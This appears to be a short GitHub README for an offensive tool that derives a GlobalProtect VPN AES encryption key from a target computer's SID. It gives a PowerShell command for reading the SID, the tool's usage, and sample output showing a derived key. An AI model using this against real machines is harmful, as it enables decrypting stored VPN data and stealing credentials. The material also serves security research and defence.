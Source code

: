 # GlobalProtect_KeyGen

Tool for generating encryption key of GlobalProtect VPN from Computer SID.

## Usage

Obtain Computer SID of target 
```
((get-wmiobject -query "Select * from Win32_UserAccount Where LocalAccount = TRUE").SID -replace "\d+$","" -replace ".$")[0]
```

Run offline to obtain AES key 
```
> GlobalProtect_KeyGen.exe
Usage: GlobalProtect_KeyGen.exe Computer_SID_VALUE
```

```
> GlobalProtect_KeyGen.exe S-1-5-21-3853142505-1760735370-2458319090
[*] Deriving AES key from computer SID
        [*] Computer SID : S-1-5-21-3853142505-1760735370-2458319090
        [*] Computer SID (Hex) : 010400000000000515000000E949AAE58AB0F268F2F88692
        [*] Derived AES Key: FFD40E0D6894B0582E3AA0F2899F9FBEFFD40E0D6894B0582E3AA0F2899F9FBE
```

## Original Source Code
https://github.com/rotarydrone/GlobalUnProtect

